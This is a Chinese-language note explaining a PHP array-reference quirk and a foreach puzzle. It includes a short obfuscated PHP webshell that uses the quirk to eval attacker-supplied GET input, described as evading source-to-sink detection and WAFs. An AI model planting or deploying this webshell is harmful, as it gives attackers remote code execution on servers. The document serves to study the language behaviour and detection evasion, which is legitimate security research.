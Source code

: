 
## PHP "BUG" 特性

[PHP 在线工具 - 菜鸟工具](https://c.runoob.com/compile/1/)

[![XNtAC6.png](https://s1.ax1x.com/2022/06/03/XNtAC6.png)](https://imgtu.com/i/XNtAC6)

上面运行结果可以看出c这个字符内存地址相同的问题。

为什么\$c=\$a后，\$c[0]会改变\$a[0]呢。七友大佬给出了官方的解释：

如果对数组的单个元素进行引用，然后复制数组，无论是通过赋值还是通 过函数调用中的值传递，都会将引用复制为数组的一部分。这意味着对任一数组中任何此类元素的更改 都将在另一个数组（和其他引用中）中重复

## 条件

即，满足这个BUG特性需要两个条件

1.原数组的一个元素被引用了，即&$a[0]

2.原数组被复制了，即$b=$a

那么此时，我们就可以通过复制过去的数组，去修改原数组那一个元素，因为两个数组中这两个元素指向同一个地址。

 - [ ] 再看大佬给出的Webshell，猜猜是怎么执行的。
       
       <?php
       
       $a = array(1 => "A");
       
       $b=&$a[1];
       
       $c=$a;
       
       $c[$_GET["mem"]]=$_GET["cmd"];
       
       eval($a[1]);
       
       ?>

首先\$b是工具人，用于触发元素引用的条件。之后\$c复制了数组\$a，数组\$c修改了\$_GET["mem"]这个索引对应的参数为\$_GET["cmd"]。最后命令执行数组$a[1]索引参数。

[![XNtZvD.png](https://s1.ax1x.com/2022/06/03/XNtZvD.png)](https://imgtu.com/i/XNtZvD)

显然没传参时看不出什么结果。但是结合利用图就能明白了。数组$c还没有接收参数，因此它现在还不具备修改\$a元素的第二个条件。等到用户传参men为1时才满足，此时数组$a[1]的值为用户传参cmd，eval命令执行。正因为该行为不容易被source到sink规则检测出来，适合用于过Waf。

[![XNtmKe.png](https://s1.ax1x.com/2022/06/03/XNtmKe.png)](https://imgtu.com/i/XNtmKe)

大佬最后留了一个问题，以下内容输出结果的思考。

[![XNtnDH.png](https://s1.ax1x.com/2022/06/03/XNtnDH.png)](https://imgtu.com/i/XNtnDH)

为什么第二次输出\$array[2]改变了？不妨思考foreach执行到最后一句，是\$array[2]=&\$item，这时&\$item的地址不再改变，即$item=&array[2]。

> array(3) {
> 
> [0]=>
> 
> int(1)
> 
> [1]=>
> 
> int(2)
> 
> [2]=>
> 
> &int(3)
> 
> }

再执行一次foreach，依次执行了\$item=\$array[0]，具备修改条件，此时array[2]为1；\$item=\$array[1]，具备修改条件，此时array[2]为2；\$item[2]=\$array[2]，具备修改条件，此时赋值完还是2。

更多解释可以看这篇英文原文：https://bugs.php.net/bug.php?id=29992
